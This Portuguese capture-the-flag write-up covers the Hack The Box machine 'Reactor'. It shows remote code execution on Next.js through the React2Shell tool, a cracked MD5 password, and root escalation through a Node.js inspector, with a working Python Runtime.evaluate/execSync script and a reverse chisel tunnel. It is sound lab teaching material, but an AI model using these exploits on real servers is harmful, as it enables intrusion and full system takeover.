





# HTB-Reactor

Comecei enumerando as portas com o `nmap`, rodando um scan completo de versão (`-sV`) pra já sair com fingerprint de serviço em mãos

```jsx
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000,
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Tue, 02 Jun 2026 20:10:42 GMT
|     Connection: close

```

O nmap não reconheceu o serviço da porta 3000 (`ppp?`), mas o próprio banner já entrega a stack, o header `Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch` é característico do App Router do Next.js 

Isso me chamou atenção na hora, porque RSC + Next.js recentemente foi alvo de uma das RCEs mais críticas dos últimos tempos (CVE-2025-55182) a React2Shell.



A aplicação em si parece só uma página estática então foquei na possibilidade da cve, Pra explorar usei o [React2Shell](https://github.com/xalgord/React2Shell) toolkit que empacota a geração do payload de prototype pollution + follow-up de comando em uma interface de shell interativa.



```jsx
justsomeone@underground React2Shell   git:(master) python3 react2shell.py  -u http://reactor.htb:3000/
╔════════════════════════════════════════════════════════════╗
║              React2Shell - Next.js RCE Shell               ║
║  Target: http://reactor.htb:3000/                        ║
║  Root Mode: OFF                                            ║
║  Type: Standalone (No Dependencies)                        ║
╚════════════════════════════════════════════════════════════╝

Commands:
  .root     - Toggle root mode (sudo -i)
  .save     - Save output to file
  .download - Download file from target
  .exit     - Exit shell
  .help     - Show this help

[*] Initializing shell...
```

O script manda o POST malformado pro endpoint do App Router carregando a chave poluída no corpo multipart, e a resposta confirma execução a partir daí já temos uma pseudo-shell interativo rodando comandos no contexto do processo Node da aplicação.
****

Com shell dentro da máquina, parti pra reconhecimento do sistema de arquivos da aplicação, dentro do /opt/reactor-app de interessante temos o reactor.db.

```jsx
ubuntu@target:/opt/reactor-app$ ls
app
next.config.js
node_modules
package.json
package-lock.json
reactor.db
```

Movi ele para minha máquina e analisei com sqlitebrowser.

```jsx
justsomeone@underground ~   sqlitebrowser
```


Essas foram as informações extraídas da db, dentre elas o mais relevante para nos é a hash do user engineer 



```bash

id,username,password_hash,role,email
1,admin,a203b22191d744a4e70ada5c101b17b8,administrator,admin@reactor.htb
2,engineer,39d97110eafe2a9a68639812cd271e8e,operator,engineer@reactor.htb
```

Usando o crackstation, quebramos a hash md5 e agora temos a senha do engineer



```bash
user:engineer
Hash:39d97110eafe2a9a68639812cd271e8e
type:md5
result:reactor1
```

Utilizei das credenciais que conseguimos para conectar pelo ssh, onde já resgatei a flag user.txt

```bash
justsomeone@underground ~   ssh engineer@reactor.htb
engineer@reactor.htb's password: reactor1
 ____  _____    _    ____ _____ ___  ____
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ <
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7

    AUTHORIZED PERSONNEL ONLY
Last login: Wed Jun 3 23:54:03 2026 from 10.10.15.94
engineer@reactor:~$ ls
user.txt
engineer@reactor:~$ cat user.txt
~~<FLAG>~~
```


a porta 9229 é a porta padrão do Node.js Inspector  o serviço de debug embutido no runtime, que abre um endpoint WebSocket implementando o `Chrome DevTools Protocol (CDP)`. Quando um processo Node sobe com a flag --inspect (ou recebe `SIGUSR1` pra habilitar o inspector em runtime), ele expõe esse debugger, que por padrão escuta só em loopback  mas isso não é suficiente como controle de segurança, porque qualquer processo local (ou qualquer um que consiga alcançar esse loopback via tunelamento) pode se conectar e interagir com o runtime.

O detalhe que faz essa porta valer ouro aqui é que esse processo Node estava rodando como root. O CDP expõe o domínio Runtime, que entre outras coisas tem o método `Runtime.evaluate`  ele avalia uma expressão JavaScript arbitrária dentro do contexto do processo Node, com os mesmos privilégios do processo. Como o Node tem acesso nativo ao módulo child_process, isso vira RCE trivial assim que se tem uma sessão WebSocket aberta com o inspector.

```bash
engineer@reactor:/$ netstat -lnp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9229          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::3000                 :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -

```

Consultei o endpoint /json/list que o inspector expõe pra listar os targets debugáveis que retorna a URL do WebSocket debugger e o UUID da sessão:

```bash
engineer@reactor:/opt/uptime-monitor$ curl -H 'Host: 127.0.0.1' -si 'http://127.0.0.1:9229/json/list'
HTTP/1.0 200 OK
Content-Type: application/json; charset=UTF-8
Cache-Control: no-cache
Content-Length: 661

[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1/5152faad-cda3-4c62-9dbc-872db051eef2",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1/5152faad-cda3-4c62-9dbc-872db051eef2",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "5152faad-cda3-4c62-9dbc-872db051eef2",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1/5152faad-cda3-4c62-9dbc-872db051eef2"
} ]

```

Após isso, Primeiro oque fiz foi passar conexão do host alvo pra minha máquina principal permitindo acessar o serviço dela mesmo local da minha máquina, existem dois jeitos de fazer isso, 1 é o que eu usei no caso utilizado o ssh e o segundo pode ser utilizando o chisel deixarei ambos para uso abaixo:

```bash
ssh -L 9229:127.0.0.1:9229 engineer@reactor.htb

```

```bash
# sua maquina
 chisel server --reverse -p 1337

# maquina alvo, basta subir o binario do chisel no tmp pra conseguir rodar
./chisel client 10.10.14.130:1337 R:9229:127.0.0.1:9229
```

para explorar escrevi um script pequeno em Python pra abrir a conexão WS e mandar um comando JSON-RPC Runtime.evaluate, chamando child_process.execSync a partir do process.mainModule global isso me dá execução de shell arbitrária dentro do processo (que roda como root):

```bash
import requests
import websocket
import json

res = requests.get('http://127.0.0.1:9229/json')
data = res.json()
ws_url = data[0]['webSocketDebuggerUrl']

ws = websocket.create_connection(ws_url)

payload = {
    "id": 1,
    "method": "Runtime.evaluate",
    "params": {
        "expression": "globalThis.process.mainModule.require('child_process').execSync('cat /root/root.txt > /tmp/flag.txt')"
    }
}

ws.send(json.dumps(payload))
result = ws.recv()
print(result)
ws.close()

```

O `execSync` roda de forma síncrona dentro do próprio contexto avaliado, escrevendo a flag root pro `/tmp`, diretório onde temos permissão de leitura com o user engineer e podemos resgatar a flag de root 

```bash
engineer@reactor:/tmp$ cat flag.txt
~~<FLAG>~~
```




**By Enzo Santana (0xEnzoSantana)**
